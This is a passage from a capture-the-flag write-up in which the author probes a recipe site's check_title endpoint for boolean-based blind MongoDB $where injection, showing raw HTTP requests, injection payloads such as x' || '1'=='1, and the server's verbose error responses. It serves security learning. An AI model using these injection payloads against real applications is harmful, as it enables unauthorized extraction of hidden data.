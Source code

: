 However, when searching for titles that already exist, the response was `1`:

```html
GET /api/check_title?title=Lasagne HTTP/1.1
Host: one.jh2i.com:50009
Connection: close

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 1
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:21:29 GMT

1
```

Next, I tried a standard payload for MongoDB injection in `$where` (following the Discord post hint), which immediately confirmed that this endpoint was vulnerable to NoSQL injection: `x' || '1'=='1` resulted in `7`, while `x' || '1'=='0` resulted in `0` in the response. As I could only find 6 posts in all categories, it seemed like there was one post that is not visible. Actually, the following comment below the `BBQ Ribs` recipe should have told me that there is a hidden post.

{% include image-center.html url="/assets/mongolianbbq/secret-sauce.png" alt="Comment" %}

I was pretty sure that the flag will be either in the title or the body. As there is no direct response, we have boolean-based blind NoSQL injection, giving us no direct output. This also means that is not sufficient to use simple comparisons which is the easiest thing to inject into `$where`, instead, some sort of regex or substring search is needed to efficiently retrieve the flag character by character.

Next, I tried to find out how to properly end the query to be able to inject more advanced things. First, I just added a comment after the semicolon. Luckily, the error messages returned were quite verbose:

```html
GET /api/check_title?title=Lasagne'// HTTP/1.1
Host: one.jh2i.com:50009
Connection: close


HTTP/1.0 400 BAD REQUEST
Content-Type: text/html; charset=utf-8
Content-Length: 169
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:23:58 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>400 Bad Request</title>
<h1>Bad Request</h1>
<p>SyntaxError: missing } after function body @:1:50<br></p>
```

Next, I obviously tried to add a `}`:

```html
GET /api/check_title?title=Lasagne'}// HTTP/1.1
Host: one.jh2i.com:50009
Connection: close


HTTP/1.0 400 BAD REQUEST
Content-Type: text/html; charset=utf-8
Content-Length: 137
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 17 Jun 2020 22:25:32 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>400 Bad Request</title>
```